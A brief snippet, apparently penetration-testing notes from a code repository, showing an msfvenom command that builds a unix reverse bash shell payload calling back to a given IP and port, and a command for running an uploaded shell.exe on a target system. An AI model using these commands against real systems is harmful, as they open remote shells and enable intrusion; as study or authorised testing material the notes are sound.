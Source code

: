 
You can use msfvenom to generate reverse shell payload for example - 
`msfvenom -p cmd/unix/reverse_bash lhost=10.17.52.10 lport=1234 R`


You can use `execute -f shell.exe` to run a file that you have uploaded onto the target system

